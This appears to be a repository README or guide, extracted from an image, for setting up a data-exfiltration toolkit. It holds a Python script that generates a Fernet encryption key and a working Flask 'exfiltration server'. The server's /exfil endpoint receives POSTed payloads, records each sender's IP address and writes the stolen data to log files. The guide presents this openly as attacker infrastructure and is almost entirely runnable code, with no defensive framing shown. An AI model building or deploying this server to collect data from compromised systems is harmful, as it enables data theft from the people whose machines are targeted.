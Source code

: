 ## 🧾 Step-by-Step Guide

### 🔑 Step 1: Generate Encryption Key

```python
# save as generate_key.py
from cryptography.fernet import Fernet

key = Fernet.generate_key()
with open("encryption.key", "wb") as f:
    f.write(key)

print("Encryption key generated and saved as 'encryption.key'")
```

Run:

```bash
python generate_key.py
```

---

### 🎯 Step 2: Run Exfiltration Server

```python
# exfil_server.py
from flask import Flask, request
import datetime
import os

app = Flask(__name__)

# Create directory for logs if not present
RECEIVED_LOG_DIR = "exfil_received_logs"
os.makedirs(RECEIVED_LOG_DIR, exist_ok=True)

# Root route to verify server status
@app.route("/", methods=["GET"])
def home():
    return "🔐 Exfiltration Server is active. Awaiting POST requests at /exfil", 200

# Exfiltration endpoint supporting GET (for testing) and POST (for data)
@app.route("/exfil", methods=["GET", "POST"])
def receive_data():
    if request.method == "POST":
        payload = request.data
        timestamp = datetime.datetime.now().strftime("%Y-%m-%d %H-%M-%S")
        source_ip = request.remote_addr
        payload_size = len(payload)

        print(f"[INFO] [{timestamp}] Received {payload_size} bytes from {source_ip}")

        filename = os.path.join(RECEIVED_LOG_DIR, f"payload_{timestamp}.bin")
        with open(filename, "wb") as f:
            f.write(b"===== PAYLOAD START =====\n")
            f.write(f"[{timestamp}] From: {source_ip}\n".encode())
            f.write(payload)
            f.write(b"\n===== PAYLOAD END =====\n")

        # Optional logging
        with open(os.path.join(RECEIVED_LOG_DIR, "exfil_log.txt"), "a") as log:
            log.write(f"[INFO] [{timestamp}] Received {payload_size} bytes from {source_ip}\n")

        return "Payload received", 200
```